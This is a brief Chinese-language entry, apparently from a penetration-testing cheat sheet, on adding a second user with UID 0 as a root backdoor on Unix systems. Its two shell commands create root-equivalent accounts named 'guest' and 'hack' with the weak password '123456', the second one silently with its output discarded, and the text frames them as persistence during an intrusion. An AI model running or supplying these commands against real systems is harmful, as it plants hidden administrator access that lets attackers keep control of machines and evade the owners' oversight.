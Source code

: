 ```yaml
---
title: "uid 0用户添加"
id: zhfly3501
---
```


## uid 0用户添加

在 Unix 体系下，UID 为 0 就是 root 权限。所以渗透的时候可以添加一个 UID 为 0 的用户作为后门。

```
useradd -p `openssl passwd 123456`  -o -u 0 guest
/usr/sbin/useradd -o -u 0 hack &>/dev/null && echo hack:123456 | /usr/sbin/chpasswd &>/dev/null 
```

![image](../img/f422dc548b58ae809e25d7a2a2a77db1.png)